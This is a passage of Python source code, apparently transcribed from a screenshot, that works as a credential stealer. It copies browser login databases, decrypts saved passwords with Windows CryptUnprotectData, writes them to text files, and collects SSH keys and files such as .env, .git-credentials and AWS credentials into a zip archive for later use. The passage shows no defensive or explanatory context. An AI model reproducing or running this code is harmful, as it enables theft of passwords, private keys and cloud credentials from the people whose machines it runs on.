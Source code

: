                     shutil.copy(db_path, temp_db)
                    con = sqlite3.connect(temp_db)
                    cur = con.cursor()
                    cur.execute("SELECT origin_url, username_value, password_value FROM logins")
                    rows = cur.fetchall()
                    txt_path = f"{browser}_passwords.txt"
                    with open(txt_path, "w", encoding="utf-8") as f:
                        for row in rows:
                            url, user, pwd = row
                            try:
                                import win32crypt
                                decrypted = win32crypt.CryptUnprotectData(pwd, None, None, None, 0)[1] if pwd else b""
                                pwd_str = decrypted.decode("utf-8", errors="ignore")
                            except Exception:
                                pwd_str = base64.b64encode(pwd).decode("utf-8") if pwd else ""
                            f.write(f"{url}\t{user}\t{pwd_str}\n")
                    to_zip.append(txt_path)
                    con.close()
                    os.remove(temp_db)
                except Exception as e:
                    with open(f"{browser}_error.txt", "w", encoding="utf-8") as ferr:
                        ferr.write(f"Failed to extract {browser} passwords: {e}\n")
                    to_zip.append(f"{browser}_error.txt")
    # SSH keys
    ssh_dir = os.path.join(base, ".ssh")
    if os.path.exists(ssh_dir):
        for f in glob.glob(os.path.join(ssh_dir, "*")):
            if os.path.isfile(f):
                to_zip.append(f)
    # AWS and other credentials
    for root, dirs, files in os.walk(base):
        for name in files:
            if name.lower() in ["aws_credentials", "credentials", ".env", ".git-credentials"]:
                try:
                    p = os.path.join(root, name)
                    to_zip.append(p)
                except Exception:
                    pass
    if not to_zip:
        return None
    zip_path = os.path.join(os.getcwd(), zipname)
    try:
        with zipfile.ZipFile(zip_path, 'w', zipfile.ZIP_DEFLATED) as archive:
            for f in to_zip:
                try:
                    archive.write(f, arcname=os.path.basename(f))
                except Exception:
                    pass
        return zip_path
    except Exception:
        return None
